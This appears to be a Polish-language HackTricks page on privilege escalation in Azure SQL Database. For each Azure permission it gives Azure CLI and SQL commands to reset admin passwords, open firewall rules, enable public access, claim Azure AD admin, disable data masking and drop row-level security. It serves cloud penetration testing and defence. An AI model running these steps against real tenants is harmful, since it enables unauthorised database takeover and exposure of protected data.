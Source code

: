 # Az - SQL Database Privesc

{{#include ../../../banners/hacktricks-training.md}}

## SQL Database Privesc

Aby uzyskać więcej informacji na temat SQL Database, sprawdź:

{{#ref}}
../az-services/az-sql.md
{{#endref}}

### `Microsoft.Sql/servers/read` && `Microsoft.Sql/servers/write`

Dzięki tym uprawnieniom użytkownik może przeprowadzić eskalację uprawnień, aktualizując lub tworząc serwery Azure SQL oraz modyfikując krytyczne konfiguracje, w tym dane uwierzytelniające administratora. To uprawnienie pozwala użytkownikowi na aktualizację właściwości serwera, w tym hasła administratora SQL, co umożliwia nieautoryzowany dostęp lub kontrolę nad serwerem. Mogą również tworzyć nowe serwery, potencjalnie wprowadzając infrastrukturę cieniową w celach złośliwych. Staje się to szczególnie krytyczne w środowiskach, w których "Microsoft Entra Authentication Only" jest wyłączone, ponieważ mogą wykorzystać uwierzytelnianie oparte na SQL, aby uzyskać nieograniczony dostęp.
```bash
# Change the server password
az sql server update \
--name <server_name> \
--resource-group <resource_group_name> \
--admin-password <new_password>

# Create a new server
az sql server create \
--name <new_server_name> \
--resource-group <resource_group_name> \
--location <location> \
--admin-user <admin_username> \
--admin-password <admin_passwor d>
```
Dodatkowo, konieczne jest włączenie dostępu publicznego, jeśli chcesz uzyskać dostęp z punktu końcowego, który nie jest prywatny. Aby to włączyć:
```bash
az sql server update \
--name <server-name> \
--resource-group <resource-group> \
--enable-public-network true
```
Ponadto, z uprawnieniami możesz włączyć przypisaną tożsamość i operować z zarządzaną tożsamością przypisaną do serwera. Na przykład tutaj z zarządzaną tożsamością, która może uzyskać dostęp do Azure Storage:
```bash
az sql server update \
--name <server-name> \
--resource-group <resource-group> \
--assign_identity
```

```sql 
CREATE DATABASE SCOPED CREDENTIAL [ManagedIdentityCredential]
WITH IDENTITY = 'Managed Identity';
GO


CREATE EXTERNAL DATA SOURCE ManagedIdentity
WITH (
TYPE = BLOB_STORAGE,
LOCATION = 'https://<storage-account>.blob.core.windows.net/<container>',
CREDENTIAL = ManagedIdentityCredential
);
GO

SELECT *
FROM OPENROWSET(
BULK 'message.txt',
DATA_SOURCE = 'ManagedIdentity',
SINGLE_CLOB
) AS DataFile;
GO
```
### `Microsoft.Sql/servers/firewallRules/write`

Atakujący może manipulować regułami zapory na serwerach Azure SQL, aby umożliwić nieautoryzowany dostęp. Może to być wykorzystane do otwarcia serwera na konkretne adresy IP lub całe zakresy adresów IP, w tym publiczne adresy IP, co umożliwia dostęp dla złośliwych aktorów. Ta aktywność po eksploatacji może być używana do obejścia istniejących zabezpieczeń sieciowych, ustanowienia trwałości lub ułatwienia ruchu lateralnego w środowisku poprzez ujawnienie wrażliwych zasobów.
```bash
# Create Firewall Rule
az sql server firewall-rule create \
--name <new-firewall-rule-name> \
--server <server-name> \
--resource-group <resource-group> \
--start-ip-address <start-ip-address> \
--end-ip-address <end-ip-address>

# Update Firewall Rule
az sql server firewall-rule update \
--name <firewall-rule-name> \
--server <server-name> \
--resource-group <resource-group> \
--start-ip-address <new-start-ip-address> \
--end-ip-address <new-end-ip-address>
```
Dodatkowo, uprawnienie `Microsoft.Sql/servers/outboundFirewallRules/delete` pozwala na usunięcie reguły zapory.  
UWAGA: Należy mieć włączony dostęp publiczny.

### `Microsoft.Sql/servers/ipv6FirewallRules/write`

Dzięki temu uprawnieniu możesz tworzyć, modyfikować lub usuwać reguły zapory IPv6 na serwerze Azure SQL. Może to umożliwić atakującemu lub uprawnionemu użytkownikowi ominięcie istniejących konfiguracji zabezpieczeń sieciowych i uzyskanie nieautoryzowanego dostępu do serwera. Dodając regułę, która pozwala na ruch z dowolnego adresu IPv6, atakujący może otworzyć serwer na dostęp zewnętrzny.
```bash
az sql server firewall-rule create \
--server <server_name> \
--resource-group <resource_group_name> \
--name <rule_name> \
--start-ip-address <start_ipv6_address> \
--end-ip-address <end_ipv6_address>
```
Dodatkowo, uprawnienie `Microsoft.Sql/servers/ipv6FirewallRules/delete` pozwala na usunięcie reguły zapory.
UWAGA: Należy mieć włączony dostęp publiczny

### `Microsoft.Sql/servers/administrators/write` && `Microsoft.Sql/servers/administrators/read`

Dzięki tym uprawnieniom możesz uzyskać podwyższone uprawnienia w środowisku Azure SQL Server, uzyskując dostęp do baz danych SQL i odzyskując krytyczne informacje. Używając poniższego polecenia, atakujący lub uprawniony użytkownik może ustawić siebie lub inne konto jako administratora Azure AD. Jeśli "Microsoft Entra Authentication Only" jest włączone, możesz uzyskać dostęp do serwera i jego instancji. Oto polecenie do ustawienia administratora Azure AD dla serwera SQL:
```bash
az sql server ad-admin create \
--server <server_name> \
--resource-group <resource_group_name> \
--display-name <admin_display_name> \
--object-id <azure_subscribtion_id>
```
### `Microsoft.Sql/servers/azureADOnlyAuthentications/write` && `Microsoft.Sql/servers/azureADOnlyAuthentications/read`

Dzięki tym uprawnieniom możesz skonfigurować i wymusić "Tylko uwierzytelnianie Microsoft Entra" na serwerze Azure SQL, co może ułatwić eskalację uprawnień w niektórych scenariuszach. Atakujący lub uprawniony użytkownik z tymi uprawnieniami może włączyć lub wyłączyć uwierzytelnianie tylko przez Azure AD.
```bash
#Enable
az sql server azure-ad-only-auth enable \
--server <server_name> \
--resource-group <resource_group_name>

#Disable
az sql server azure-ad-only-auth disable \
--server <server_name> \
--resource-group <resource_group_name>
```
### Microsoft.Sql/servers/databases/dataMaskingPolicies/write
Modyfikuj (lub wyłącz) polityki maskowania danych w swoich bazach danych SQL.
```bash
az rest --method put \
--uri "https://management.azure.com/subscriptions/<your-subscription-id>/resourceGroups/<your-resource-group>/providers/Microsoft.Sql/servers/<your-server>/databases/<your-database>/dataMaskingPolicies/Default?api-version=2021-11-01" \
--body '{
"properties": {
"dataMaskingState": "Disable"
}
}'
```
### Usuń zabezpieczenia na poziomie wiersza
Jeśli zalogujesz się jako administrator, możesz usunąć polityki samego administratora oraz innych użytkowników.
```sql
DROP SECURITY POLICY [Name_of_policy];
```
{{#include ../../../banners/hacktricks-training.md}}
